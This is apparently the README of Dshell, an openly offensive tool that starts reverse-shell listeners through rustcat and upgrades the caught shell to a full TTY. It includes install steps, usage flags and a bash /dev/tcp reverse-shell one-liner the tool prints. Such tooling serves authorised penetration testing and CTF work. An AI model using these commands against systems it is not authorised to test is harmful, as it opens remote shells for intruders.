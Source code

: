 # 🤔 What is this?

![](/Video/dshell.gif)

Tired of manually upgrading your reverse shell every time? Let Dshell handle it for you!

Dshell is a tiny reverse-shell helper that spins up a responsive listener and automatically upgrade your terminal on a given port using [rustcat](https://github.com/robiot/rustcat)

<br>

# ✨ Features

* Quickly set up a reverse shell listener.
* Fully responsive TTY with $${\text{\color{red}C}\text{\color{green}O}\text{\color{blue}L}\text{\color{yellow}O}\text{\color{orange}R}\text{\color{lightblue}S}}$$ and <ins>Tab Completion</ins>
* Auto-selects the best network interface when none is provided.

# 🛠️ Installation

1. Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.
2.
```sh
git clone https://github.com/Bimo754/Dshell
cd Dshell
chmod +x install.sh
sudo ./install.sh
```

<br>


# 📖 Usage

**Dshell** has two modes, `listen` or `kill`

## Help Menu

```sh
dshell -h
```
**Usage**
```sh
dshell -p <PORT> [IFACE|IP]
dshell -k <PORT|all>
```

## Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will print the most commonly used reverse shell command (with the supplied IP and PORT), for example:

```sh
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

If you don't supply an interface or IP, Dshell will try these interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

## Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` — Kill the Dshell process listening on the specified port.
* `all`  — Kill all running Dshell processes.

<br>

# Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
